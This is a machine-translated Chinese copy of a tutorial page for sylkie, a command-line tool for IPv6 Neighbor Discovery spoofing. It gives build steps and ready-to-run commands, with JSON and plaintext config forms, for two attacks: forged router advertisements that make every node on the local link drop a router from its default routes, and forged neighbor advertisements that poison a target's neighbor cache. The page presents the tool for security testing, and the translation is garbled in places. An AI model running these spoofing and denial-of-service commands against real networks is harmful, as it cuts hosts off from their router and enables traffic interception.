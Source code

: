 # syl kie–使用邻居发现协议的 IPv6 地址欺骗

> 原文：<https://kalilinuxtutorials.com/sylkie-ipv6-address-spoofing/>

Sylkie 是一个命令行设备和库，用于测试使用邻居发现协议的 IPv6 系统中的正常地址欺骗安全漏洞。这项事业仍处于早期发展阶段。万一你继续遇到任何问题，请考虑提出一个问题。它目前只是继续在 Linux 上运行。

## **建造西尔基**

获取代码并编译它！

```
# Get the code
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie

# Compile the code
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

**也读作[FireMaster——火狐主密码恢复工具](https://kalilinuxtutorials.com/firemaster-password-recovery-tool/)**

## **基本用法**

下面介绍 sylkie 的基本用法。运行 sylkie -h 或 sylkie <subcommand>-h 以获得更多细节，或者查看高级用法以获得更多示例。</subcommand>

**注意:** sylkie 使用原始套接字发送伪造的广告。因此，可执行文件必须设置 setuid 位，或者必须以 root 用户身份运行。

## **【DoS(路由器广告)**

router-advert 命令的基本用法如下所示。该命令将向给定 ip 或所有节点多播地址发送路由器广告消息，使目标节点从其默认路由列表中删除 <router-ip>/ <prefix>。</prefix></router-ip>

```
sylkie ra -i <interface> \
--target-mac <mac of router> \
--router-ip <ip of router> \
--prefix <router prefix> \
--timeout <time between adverts> \
--repeat <number of times to send the request>
```

#### **路由器广告示例**

```
sylkie ra -i ens3 \
--target-mac 52:54:00:e3:f4:06 \
--router-ip fe80::b95b:ee1:cafe:9720 \
--prefix 64 \
--repeat -1 \
--timeout 10
```

这将向链路本地范围所有节点地址 ff02::1 发送“伪造的”路由器广告，导致所有节点从它们的默认路由列表中删除 fe80::b95b:ee1:cafe:9720/64(链路层地址 52:54:00:e3:f4:06)。

## **【邻居广告】地址欺骗**

sylkie neighbor advert 命令的基本用法如下所示。该命令将向给定的 ip 发送伪造的邻居通告消息。

```
sylkie na -i <interface> \
--dst-mac <dest hw addr> \
--src-ip <source ip> \
--dst-ip <dest ip address> \
--target-ip <target ip address> \
--target-mac <target mac address> \
--timeout <time betweeen adverts> \
--repeat <number of times to send the request>
```

#### **邻居广告示例**

```
sylkie na -i ens3 \
--dst-mac 52:54:00:e3:f4:06 \
--src-ip fe80::61ad:fda3:3032:f6f4 \
--dst-ip fe80::b95b:ee1:cafe:9720 \
--target-ip fe80::61ad:fda3:3032:f6f4 \
--target-mac 52:54:00:c2:a7:7c \
--repeat -1 \
--timeout 3
```

这将向 dst-IP(fe80::b95b:ee1:cafe:9720)发送一个“伪造的”邻居公告消息，导致 target-IP(fe80::61ad:FD a3:3032:f6f 4)的邻居缓存中的硬件地址更新为 target-mac (52:54:00:c2:a7:7c)。

### **JSON**

子命令(router-advert，neighbor-advert)是一个关键字，其值是一个对象数组，关键字和值是相应的选项和值。要运行该命令，请将 json 文件的路径作为参数传递给-j 选项。

#### **例子**

要从 json 运行上面提供的 router-advert 示例，首先创建一个包含以下内容的文件。

```
{
    "router-advert": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

**创建文件后，开始发送包含以下内容的广告。**

```
sylkie -j /path/to/json
```

### **明文**

该文件的每一行都必须与您通过命令行提供的内容完全一致，不包括 sylkie 命令。

#### **例子**

要从 json 运行上面提供的 neighbor-advert 示例，首先创建一个包含以下内容的文件。

```
na -i ens3 --dst-mac 52:54:00:e3:f4:06 --src-ip fe80::61ad:fda3:3032:f6f4 --dst-ip fe80::b95b:ee1:cafe:9720 --target-ip fe80::61ad:fda3:3032:f6f4 --target-mac 52:54:00:c2:a7:7c --repeat -1 --timeout 3
```

**创建文件后，使用**开始发送广告

```
sylkie -x /path/to/file
```

[![](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/dlrobertson/sylkie)